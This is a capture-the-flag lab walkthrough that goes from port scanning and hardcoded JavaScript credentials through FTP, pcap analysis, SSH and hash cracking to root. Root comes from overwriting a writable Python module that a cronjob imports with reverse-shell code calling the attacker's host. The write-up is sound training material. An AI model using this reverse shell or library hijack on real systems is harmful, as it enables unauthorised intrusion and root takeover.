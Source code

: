 nmap scan shows 3 open ports
-> 22 (ssh), 80 (http), and 37370(ftp)

Enumerating port 80 with gobuster gives some directories
-> Interesting one is /static folder containing images and a note file showing a hidden auth page at "/dev1243224123123" path

Inside the directory is a login form and when viewing the source code, a javascript code is used to validate the login which was unprotected and contained plaintext login credentials.

```bash
loginButton.addEventListener("click", (e) => {
    e.preventDefault();
    const username = loginForm.username.value;
    const password = loginForm.password.value;

    if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
})
```

Entering the correct login credentials redirects to a .txt file which contains hints of the ftp login credentials.

The same credential was used for ftp login

```bash
ftp $ip 37370
```

3 .pcap files were found after logging to the ftp server
```bash
get siemFTP.pcapng # gets the pcap file
```

Use wireshark to view the network packet content
```bash
wireshark siemFTP.pcapng &
```

Follow the TCP stream to view plaintext information that can be used as a hint.

The 3rd (siemHTTP2.pcapng) file contained passwords that are used for SSHing to the machine.

```bash
ssh valleyDev@$ip # SSHs to the machine
```

The user.txt file is found in the HOME DIR of valleyDev.

going 1 directory back, there is an executable file which contains some logic which is not relevant.

But since it asks for a username and a password, it must contain validation in the executable file (or even the plaintext password).

```bash
strings executable # shows the printable information of the executable
```

Mostly passwords use MD5-hash which is 32 characters long. So, using 

```bash
strings executable | grep -E -o "[0-9a-fA-F]{32}" # gives 3 hashes
```

I used john and then an online utility (use anyone that suits you) for getting the plaintext equivalent of the hashes (2 were found) -> liberty123, valley

Then, one of them worked and i successfully logged into another account (valley).

Looking into active cronjobs, there is an interesting one that executes a python script which imports and uses a python module (base64).
This file was writable by anyone

```bash
find / -writable -iname "*python*" 2>/dev/null
```
I started a reverse shell handler on my machine

```bash
nc -nvlp 6666
```

I replaced the existing code in the base64.py file with a reverse shell starter
```bash
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((MY_IP,6666))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

The cronjob executes in a minute tops and the handler will get a bash shell which is owned by root.

In the HOMEDIR of root is the root.txt file which contains the root flag.
